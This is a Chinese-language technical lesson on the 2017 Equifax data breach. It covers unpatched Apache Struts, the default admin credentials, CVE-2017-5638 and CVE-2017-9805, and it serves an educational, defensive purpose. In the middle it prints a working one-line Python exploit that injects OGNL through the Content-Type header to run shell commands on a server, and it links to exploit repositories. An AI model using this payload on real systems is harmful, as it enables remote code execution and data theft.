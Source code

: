 # 03 | Equifax信息泄露始末
你好，我是陈皓，网名左耳朵耗子。

相信你一定有所耳闻，9月份美国知名征信公司Equifax出现了大规模数据泄露事件，致使1.43亿美国用户及大量的英国和加拿大用户受到影响。今天，我就来跟你聊聊Equifax信息泄露始末，并对造成本次事件的原因进行简单的分析。

# Equifax信息泄露始末

Equifax日前确认，黑客利用了其系统中未修复的Apache Struts漏洞（CVE-2017-5638，2017年3月6日曝光）来发起攻击，导致了最近这次影响恶劣的大规模数据泄露事件。

作为美国三大信用报告公司中历史最悠久的一家，Equifax的主营业务是为客户提供美国、加拿大和其他多个国家的公民信用信息。保险公司就是其服务的主要客户之一，涉及生命、汽车、火灾、医疗保险等多个方面。

此外，Equifax还提供入职背景调查、保险理赔调查，以及针对企业的信用调查等服务。由于Equifax掌握了多个国家公民的信用档案，包括公民的学前和学校经历、婚姻、工作、健康、政治参与等大量隐私信息，所以这次的信息泄露，影响面积很大，而且性质特别恶劣。

受这次信息泄露影响的美国消费者有1.43亿左右，另估计约有4400万的英国客户和大量加拿大客户受到影响。事件导致Equifax市值瞬间蒸发掉逾30亿美元。

根据《华尔街日报》（The Wall Street Journal）的观察，自Equifax在9月8日披露黑客进入该公司部分系统以来，全美联邦法院接到的诉讼已经超过百起。针对此次事件，Equifax首席执行官理查德·史密斯（Richard Smith）表示，公司正在对整体安全操作进行全面彻底的审查。

事件发生之初，Equifax在声明中指出，黑客是利用了某个“U.S. website application”中的漏洞获取文件。后经调查，黑客是利用了Apache Struts的CVE-2017-5638漏洞。

戏剧性的是，该漏洞于今年3月份就已被披露，其危险系数定为最高分10分，Apache随后发布的Struts 2.3.32和2.5.10.1版本特针对此漏洞进行了修复。而Equifax在漏洞公布后的两个月内都没有升级Struts版本，导致5月份黑客利用这个漏洞进行攻击，泄露其敏感数据。

事实上，除了Apache的漏洞，黑客还使用了一些其他手段绕过WAF（Web应用程序防火墙）。有些管理面板居然位于Shodan搜索引擎上。更让人大跌眼镜的是，据研究人员分析，Equifax所谓的“管理面板”都没有采取任何安保措施。安全专家布莱恩·克雷布斯（Brian Krebs）在其博客中爆料，Equifax的一个管理面板使用的用户名和密码都是“admin”。

由于管理面板能被随意访问，获取数据库密码就轻而易举了——虽然管理面板会加密数据库密码之类的东西，但是密钥却和管理面板保存在了一起。虽然是如此重要的征信机构，但Equifax的安全意识之弱可见一斑。

据悉，Equifax某阿根廷员工门户也泄露了14000条记录，包括员工凭证和消费者投诉。本次事件发生后，好事者列举了Equifax系统中的一系列漏洞，包括一年以前向公司报告的未修补的跨站脚本（XSS）漏洞，更将Equifax推向了风口浪尖。

# Apache Struts漏洞相关

Apache Struts是世界上最流行的Java Web服务器框架之一，它最初是Jakarta项目中的一个子项目，并在2004年3月成为Apache基金会的顶级项目。

Struts通过采用Java Servlet/JSP技术，实现了基于Java EE Web应用的MVC设计模式的应用框架，也是当时第一个采用MVC模式的Web项目开发框架。随着技术的发展和认知的提升，Struts的设计者意识到Struts的一些缺陷，于是有了重新设计的想法。

2006年，另外一个MVC框架WebWork的设计者与Struts团队一起开发了新一代的Struts框架，它整合了WebWork与Struts的优点，同时命名为“Struts 2”，原来的Struts框架改名为Struts 1。

因为两个框架都有强大的用户基础，所以Struts 2一发布就迅速流行开来。在2013年4月，Apache Struts项目团队发布正式通知，宣告Struts 1.x开发框架结束其使命，并表示接下来官方将不会继续提供支持。自此Apache Struts 1框架正式退出历史舞台。

同期，Struts社区表示他们将专注于推动Struts 2框架的发展。从这几年的版本发布情况来看，Struts 2的迭代速度确实不慢，仅仅在2017年就发布了9个版本，平均一个月一个。

但从安全角度来看，Struts 2可谓是漏洞百出，因为框架的功能基本已经健全，所以这些年Struts 2的更新和迭代基本也是围绕漏洞和Bug进行修复。仅从官方披露的安全公告中就可以看到，这些年就有53个漏洞预警，包括大家熟知的远程代码执行高危漏洞。

根据网络上一份未被确认的数据显示，中国的Struts应用分布在全球范围内排名第一，第二是美国，然后是日本，而中国没有打补丁的Struts的数量几乎是其他国家的总和。特别是在浙江、北京、广东、山东、四川等地，涉及教育、金融、互联网、通信等行业。

所以在今年7月，国家信息安全漏洞共享平台还发布过关于做好Apache Struts 2高危漏洞管理和应急工作的安全公告，大致意思是希望企业能够加强学习，提高安全认识，同时完善相关流程，协同自律。

而这次Equifax中招的漏洞编号是CVE-2017-5638，官方披露的信息见下图。简单来说，这是一个RCE的远程代码执行漏洞，最初是被安恒信息的Nike Zheng发现的，并于3月7日上报。

![](images/281/009ecfbac5741ea7ffd7fa3079a8c8cc.png)

从介绍中可以看出，此次漏洞的原因是Apache Struts 2的Jakarta Multipart parser插件存在远程代码执行漏洞，攻击者可以在使用该插件上传文件时，修改HTTP请求头中的Content-Type值来触发漏洞，最后远程执行代码。

说白了，就是在Content-Type注入OGNL语言，进而执行命令。代码如下（一行Python命令就可以执行服务器上的shell命令）：

```
import requests
requests.get("https://target", headers={"Connection": "close", "Accept": "*/*", "User-Agent": "Mozilla/5.0", "Content-Type": "%{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='dir').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"})

```

在GitHub上有相关的代码，链接为： [https://github.com/mazen160/struts-pwn](https://github.com/mazen160/struts-pwn) 或 [https://github.com/xsscx/cve-2017-5638](https://github.com/xsscx/cve-2017-5638)

注入点是在JakartaMultiPartRequest.java的buildErrorMessage函数中，这个函数里的localizedTextUtil.findText会执行OGNL表达式，从而导致命令执行（注：可以参看Struts 两个版本的补丁“2.5.10.1版补丁”“2.3.32版补丁”），使客户受到影响。

因为默认情况下Jakarta是启用的，所以该漏洞的影响范围甚广。当时官方给出的解决方案是尽快升级到不受影响的版本，看来Equifax的同学并没有注意到，或者也没有认识到它的严重性。

另外，在9月5日和7日，Struts官方又接连发布了几个严重级别的安全漏洞公告，分别是CVE-2017-9804、CVE-2017-9805、CVE-2017-9793和CVE-2017-12611。

这里面最容易被利用的当属CVE-2017-9805，它是由国外安全研究组织lgtm.com的安全研究人员发现的又一个远程代码执行漏洞。漏洞原因是Struts 2 REST插件使用带有XStream程序的XStream Handler 进行未经任何代码过滤的反序列化操作，所以在反序列化XML payloads时就可能导致远程代码执行。

![](images/281/f8a10b42faf789018e0a5dfadbbd0c02.png)

不过在Apache软件基金会的项目管理委员会的回应文章中，官方也对事故原因进行了分析和讨论。首先，依然不能确定泄露的源头是Struts的漏洞导致的。其次，如果确实是源于Struts的漏洞，那么原因“或是Equifax服务器未打补丁，使得一些更早期公布的漏洞被攻击者利用，或者是攻击者利用了一个目前尚未被发现的漏洞”。

根据推测，该声明提出黑客所使用的软件漏洞可能就是CVE-2017-9805漏洞，该漏洞虽然是在9月4日才由官方正式公布，但早在7月时就有人公布在网络上了，并且这个漏洞的存在已有9年。

相信通过今天的分享，你一定对Equifax的数据泄露始末及造成原因有了清楚的了解。欢迎把你的收获和想法，分享给我。下节课中，我们将回顾一下互联网时代的其他大规模数据泄露事件，并结合这些事件给出应对方案和技术手段。